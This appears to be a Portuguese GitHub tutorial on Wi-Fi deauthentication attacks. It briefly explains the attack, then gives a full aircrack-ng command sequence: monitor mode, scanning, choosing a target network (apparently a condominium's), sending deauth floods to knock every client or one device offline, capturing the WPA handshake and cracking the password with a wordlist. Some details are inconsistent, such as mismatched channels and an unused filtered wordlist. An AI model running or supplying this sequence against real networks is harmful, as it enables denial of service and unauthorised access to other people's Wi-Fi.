 # Ataque de Deauth ou Dissociação de Redes WI-FI

Redes cabeadas se autenticam com 3 Way Handshake, eqto redes de Wi-fi autenticam com 4 Way Handshake.

🛡️ Como funciona um ataque de desautenticação?

Os atacantes que desejam realizar um ataque de desautenticação geralmente usam dispositivos habilitados para Wi-Fi e software especializado. O processo básico envolve o seguinte:

    - Captura de tráfego Wi-Fi: O atacante inicia a captura de tráfego da rede Wi-Fi alvo usando ferramentas como um sniffer de pacotes.
    - Identificação de dispositivos-alvo: O atacante identifica os dispositivos que desejam desconectar da rede.
    - Envio de pacotes de desautenticação: Usando o endereço MAC dos dispositivos-alvo, o atacante envia pacotes de desautenticação, forçando os dispositivos a se desconectarem da rede.
    - Repetição contínua: O atacante pode repetir esse processo para manter os dispositivos desconectados da rede.

🎯 Objetivos de um ataque de desautenticação de Wi-Fi

Os atacantes realizam ataques de desautenticação de Wi-Fi por várias razões, incluindo:

    - Interrupção da conectividade: Desconectar dispositivos da rede pode causar interrupções significativas nas operações normais, afetando a produtividade e o acesso à Internet.
    - Espionagem: O ataque pode ser usado como uma tática para espionar o tráfego de rede dos dispositivos-alvo enquanto eles tentam se reconectar à rede.
    - Ameaças cibernéticas: Em alguns casos, os ataques de desautenticação podem ser o primeiro passo para invasões mais graves, como ataques de força bruta a senhas.


## Instala a ferramenta de monitoramento:

```bash
sudo apt install aircrack-ng
```

## Valida o nome da sua placa de rede wi-fi:

```bash
ip -c addr
```

## Valida possíveis conflitos de hardware antes de iniciar os processos:

```bash
sudo airmon-ng check kill
```

## Coloca a placa de rede wi-fi em modo monitoramento:

```bash
sudo airmon-ng start wlp0s20f3
```

## Valida o novo nome da sua placa de captura de redes wi-fi:

```bash
ip -c addr
```

```bash
sudo airmon-ng
```

## Inicia o scan de todas as redes próximas (aparecerão diversas redes):

```bash
sudo airodump-ng start wlp0s20f3mon
```

## Encerra o scan das redes após escolher o alvo:

```bash
ctrl+c
```

## Anote o ESSID (Nome) da rede alvo, bem como o BSSID (MAC) e tbém o CANAL (CH):

```bash
Condominio_Flores_II
```

```bash
64:D1:54:09:EE:3E
```

```bash
4
```

## Podemos validar apenas a rede alvo, se preferir:

```bash
sudo airodump-ng wlp0s20f3mon -d 64:D1:54:09:EE:3E
```

## Posso me conectar á rede wi-fi alvo, se for um laboratório, usando um celular.

## Vai constar o novo cliente, com dados do aparelho, definidos em STATION.

`TERMINAL 01` - VAMOS INICIAR A CAPTURA DOS PACOTES

## Subo o comando de captura de pacotes da rede alvo e salvo o arquivo de captura:

```bash
sudo airodump-ng -w capturados -c 2 --bssid 64:D1:54:09:EE:3E wlp0s20f3mon
```
OU
```bash
sudo airodump-ng -w capturados --channel 2 --essid Condominio_Flores_II wlp0s20f3mon
```

Á partir daqui, eu aguardo algum dispositivo se conectar para realizar a captura do 4 Way Hand Shake.... OU

`TERMINAL 02` - VAMOS INICIAR O ATAQUE DE DESAUTENTICAÇÃO

## Inicia o ataque ao roteador alvo (todos os clientes caem durante o ataque):

```bash
sudo aireplay-ng --deauth 0 -a 64:D1:54:09:EE:3E wlp0s20f3mon
```

Posso tbém, desautenticar apenas um dispositivo específico

```bash
sudo aireplay-ng --deauth 5 -a 64:D1:54:09:EE:3E -c 28:6C:07:6F:F9:53 wlp0s20f3mon
```

## Ao tentar re-conexão, os clientes entregam o handshake de 4 vias no TERMINAL 01:

```bash
[WPA handshake]: 64:D1:54:09:EE:3E
```

## Podemos encerrar a captura no TERMINAL 01

```bash
ctrl+c
```

## Podemos encerrar o ataque no TERMINAL 02

```bash
ctrl+c
```

## Até esse ponto apenas teríamos um ataque de Negação de serviço (DDOS), MAS, nós salvamos um arquivo com informações (capturados.cap) e vamos usá-lo

## Instale o Wireshark e abra o arquivo de captura, filtrando mensagens criptografadas, do tipo EAPOL:

```bash
sudo apt install wireshark
```

```bash
wireshark capturados.cap
```

OU

## Baixe sua wordlist para quebrar a senha capturada usando o aircrack-ng:

```bash
wget https://github.com/zacheller/rockyou.git
```

```bash
wc -l rockyou.txt
```

## Focaremos apenas em senhas que contenham de 8 a 64 caracteres, diminuindo o tempo de conjunções:

```bash
sudo grep -x '.\{8,64\}' rockyou.txt > wparockyou.txt
```

```bash
wc -l wparockyou.txt
```

```bash
aircrack-ng capturados.cap -w /home/usuariox/wordlists/rockyou.txt
```

## O resultado deve ser uma mensagem:

```bash
KEY FOUNF [ P@ssword123 ]
```

## Retira a placa de rede wi-fi do modo monitoramento:

```bash
airmon-ng stop wlp0s20f3mon
```

## Restaura sua placa de rede para navegação:

```bash
systemctl restart NetworkManager
```


## Alternativa de varredura de rede pelo terminal:
```bash
nmcli device wifi list 
```
```bash
N-USE = rede que você está usando
BSSID = endereço do roteador
SSID = nome da rede
MODE = infra (?)
CHAN = canal que está sendo utilizado pelo roteador
RATE = taxa de transferência
SIGNAL = intensidade do sinal em %
BARS = intensidade do sinal em barras
SECURITY = protocolos de segurança do roteador
```


